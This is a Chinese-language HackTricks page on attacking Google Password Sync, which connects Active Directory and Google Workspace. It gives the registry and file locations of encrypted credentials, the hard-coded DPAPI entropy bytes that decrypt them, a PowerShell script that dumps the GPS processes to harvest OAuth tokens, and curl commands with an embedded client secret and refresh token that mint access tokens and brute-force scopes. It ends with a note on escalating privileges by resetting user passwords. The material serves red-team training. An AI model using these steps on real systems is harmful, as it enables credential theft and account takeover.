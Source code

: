 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本信息

这是谷歌提供的二进制文件和服务，用于**保持用户在AD和Workspace之间的密码同步**。每当用户在AD中更改密码时，它会被设置到谷歌。

它安装在`C:\Program Files\Google\Password Sync`，您可以在此找到用于配置的二进制文件`PasswordSync.exe`和继续运行的服务`password_sync_service.exe`。

### GPS - 配置

要配置此二进制文件（和服务），需要**授予其对Workspace中超级管理员主体的访问权限**：

* 通过**OAuth**登录谷歌，然后它会**在注册表中存储一个令牌（加密）**
* 仅在具有GUI的域控制器上可用
* 提供一些具有**管理Workspace用户**权限的GCP的**服务账户凭据**（json文件）
* 非常糟糕的主意，因为这些凭据永远不会过期，可能会被滥用
* 非常糟糕的主意是给予SA对workspace的访问权限，因为SA可能在GCP中被攻破，并且可能会转向Workspace
* 谷歌要求在没有GUI的域控制中使用它
* 这些凭据也存储在注册表中

关于AD，可以指示它使用当前的**应用程序上下文、匿名或某些特定凭据**。如果选择凭据选项，**用户名**将存储在**磁盘**中的一个文件内，**密码**是**加密**并存储在**注册表**中。

### GPS - 从磁盘转储密码和令牌

{% hint style="success" %}
请注意，[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)能够检测**GPS**，获取有关配置的信息，甚至**解密密码和令牌**。
{% endhint %}

在文件**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**中，可以找到部分配置，例如配置的AD的**`baseDN`**和正在使用的**`username`**。

在注册表**`HKLM\Software\Google\Google Apps Password Sync`**中，可以找到**加密的刷新令牌**和AD用户的**加密密码**（如果有）。此外，如果使用的是某些**SA凭据**而不是令牌，也可以在该注册表地址中找到这些加密的凭据。此注册表中的**值**仅对**管理员**可访问。

加密的**密码**（如果有）位于键**`ADPassword`**中，并使用**`CryptProtectData`** API进行加密。要解密它，您需要是配置密码同步的同一用户，并在使用**`CryptUnprotectData`**时使用此**熵**：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

加密的令牌（如果有）位于键**`AuthToken`**中，并使用**`CryptProtectData`** API进行加密。要解密它，您需要是配置密码同步的同一用户，并在使用**`CryptUnprotectData`**时使用此**熵**：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
此外，它还使用字典**`0123456789abcdefghijklmnopqrstv`**进行base32hex编码。

熵值是通过使用该工具找到的。它被配置为监控对**`CryptUnprotectData`**和**`CryptProtectData`**的调用，然后该工具被用来启动和监控`PasswordSync.exe`，该工具将在开始时解密配置的密码和身份验证令牌，并**显示用于两种情况的熵值**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

请注意，也可以在这些API调用的输入或输出中查看**解密**值（以防某个时刻Winpeas停止工作）。

如果密码同步是**使用SA凭据配置的**，它也将存储在注册表**`HKLM\Software\Google\Google Apps Password Sync`**中的键内。

### GPS - 从内存转储令牌

就像GCPW一样，可以转储`PasswordSync.exe`和`password_sync_service.exe`进程的内存，您将能够找到刷新和访问令牌（如果它们已经生成）。\
我想您也可以找到配置的AD凭据。

<details>

<summary>转储 <code>PasswordSync.exe</code> 和 <code>password_sync_service.exe</code> 进程并搜索令牌</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 从刷新令牌生成访问令牌

使用刷新令牌，可以使用它以及以下命令中指定的客户端ID和客户端密钥生成访问令牌：
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
请注意，即使拥有刷新令牌，也无法请求访问令牌的任何范围，因为您只能请求**由生成访问令牌的应用程序支持的范围**。

此外，刷新令牌在每个应用程序中都无效。
{% endhint %}

默认情况下，GPS不会以用户身份访问所有可能的OAuth范围，因此我们可以使用以下脚本找到可以与`refresh_token`一起使用以生成`access_token`的范围：

<details>

<summary>Bash脚本以暴力破解范围</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

这是我在写作时得到的输出：
```
https://www.googleapis.com/auth/admin.directory.user
```
哪一个是你不指明任何范围时得到的。

{% hint style="danger" %}
在这个范围内，你可以**修改现有用户的密码以提升权限**。
{% endhint %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
